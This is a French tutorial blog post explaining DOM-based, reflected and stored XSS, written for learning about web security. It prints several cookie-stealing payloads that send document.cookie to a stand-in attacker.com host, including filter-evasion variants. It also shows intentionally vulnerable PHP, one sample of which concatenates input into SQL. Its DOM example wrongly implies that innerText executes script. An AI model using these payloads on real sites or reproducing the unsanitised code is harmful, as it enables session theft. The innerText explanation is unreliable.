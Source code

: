 ```yaml
---
title: XSS, késako ?
authors:
    - Pierre-Ky-org
date: 2023-06-10
lang: fr
---
```


## Qu'est ce qu'une XSS ?

### Introduction
L'attaque par Cross-Site Scripting, communément appelée XSS, est une attaque qui est pratiquée sur des applications web. Elle est actuellement une attaque dévastatrice et à prendre au sérieux ([3ᵉ du top 10 OWASP](https://owasp.org/Top10/fr/)) 😱😱. Cette technique exploite les entrées utilisateurs qui ne sont pas désinfectées par le développeur. On va donc passer par des requêtes HTTP GET/POST pour injecter nos payloads et pouvoir toucher les autres utilisateurs.

Il existe trois variantes principales de cette attaque :

- le XSS basé sur le DOM
- le XSS réfléchi
- le XSS stocké

Pour savoir laquelle nous allons utiliser, il va falloir voir de quoi se compose le serveur web que nous attaquons. 

### XSS basé sur le DOM


La XSS basé sur le DOM est une attaque XSS non persistante qui s'exécute côté client. C'est-à-dire que notre objectif n'est pas de la maintenir dans une base de donnée du serveur et de la propager à tous les utilisateurs. Nous allons plutôt créer une URL qui sera exécuté par le code JS côté client :

```http://target.com/search?request=<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie;</script>```

Voici notre URI, décortiquons là : 

Nous avons d'abord notre site cible : ```http://target.com/search```, on va chercher la page qui contient un formulaire ou qui nécessite un argument dans l'URL.

```?request=``` est l'argument dans lequel on va intégrer notre script JS.

```<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie;</script>```, ici on utilise [document.location](https://developer.mozilla.org/fr/docs/Web/API/Document/location) pour rediriger l'utilisateur vers ```http://attacker.com/steal.php``` qui sera notre site de réception de cookie, on ajoute l'argument ```cookie='+document.cookie``` pour rediriger les cookies de la victime vers notre site 😃

La différence avec une XSS réfléchi, c'est que le notre URL sera exécuté côté client et non par le serveur ! 

Par exemple, si côté client, vous avez un code qui récupère les arguments et les affiche dans le DOM :


```javascript
var url = document.location.href;
var message = url.split("message=")[1];
document.getElementById('welcomeMessage').innerText = message;
```

Alors, lorsque l'utilisateur visite cette URL (par phising la plupart du temps), le code JS extrait le message à partir de l'URL et l'injecte directement dans la page, ce qui conduit à l'exécution du code.


### XSS réfléchi

L'attaque XSS réfléchi vient du fait que l'attaque est basée sur la réponse du serveur à une requête, elle rentre en opposition avec la XSS basé sur le DOM qui exécute le code coté client.
Cette variante est aussi non persistante et sera aussi exploiter par le phising 

Reprenons notre payload : 

```http://target.com/search?request=<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie;</script>```

Si le serveur a un script php de ce style qui extrait et affiche la requête : 



```php
<?php
$request = $_GET['request'];
?>
<html>
    <body>
        <form method="GET" action="">
            <input type="text" name="request" placeholder="Enter search request" />
            <input type="submit" value="Search" />
        </form>
        <?php
        if ($request) {
            echo "You searched for: " . $request;
        }
        ?>
    </body>
</html>
```

Alors le serveur renverra une page avec notre code qui sera inséré dedans.


### XSS stocké

Pour la XSS stocké, considérons un site web avec un forum de discussion où les utilisateurs peuvent poster des commentaires. Si le site ne vérifie pas correctement le contenu des messages, un attaquant pourrait poster un commentaire contenant du code JS, comme notre fameux payload ```<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie;</script>```. Ce commentaire serait alors stocké sur la base de donnée du site et chaque fois qu'un autre utilisateur affichera ce commentaire sur son navigateur, le code malveillant serait exécuté. 
Voici un exemple de script php qui stocke les inputs que les utilisateurs envoient : 

```php
<?php
$db = new SQLite3('comments.db');
$db->exec("CREATE TABLE IF NOT EXISTS comments (comment TEXT)");

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $comment = $_POST['comment'];
    $db->exec("INSERT INTO comments (comment) VALUES ('$comment')");
}
?>

<!DOCTYPE html>
<html>
<body>
<form method="post" action="">
    <textarea name="comment"></textarea>
    <input type="submit" value="Submit comment">
</form>

<?php
$results = $db->query('SELECT * FROM comments');
while ($row = $results->fetchArray()) {
    echo $row['comment'] . '<br />';
}
?>

</body>
</html>
```

Ici la première partie du code PHP intègre le commentaire à la base de données. Puis la seconde partie affiche tout les commentaires.
Comme pour les autres variantes, dès qu'un utilisateur affichera la page, le code malveillant sera exécuté.

### Payloads exotiques

Souvent des normes de sécurités sont mises en place pour supprimer les balises script, il faut donc ruser pour pouvoir injecter notre payload.
Par exemple celui-ci : 

```<img src/onerror=document.location='http://attacker.com/steal.php?cookie='+document.cookie;>```

Ce payload ajoute une balise image au DOM qui n'a pas de source ce qui appellera onerror et lancera notre script.

Ou encore ce payload : 

```<a onclick="document.location='http://attacker.com/steal.php?cookie='+document.cookie;" style=display:block>test</a>```

Ici, on ajoute un lien avec la balise ```a``` qui utilise ```onclick``` pour activer le script.
Ce payload demande que la victime interagisse plus et sera moins efficace.

Beaucoup de payload existe et je vous recommande [PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) pour explorer un peu les possibilités 😁



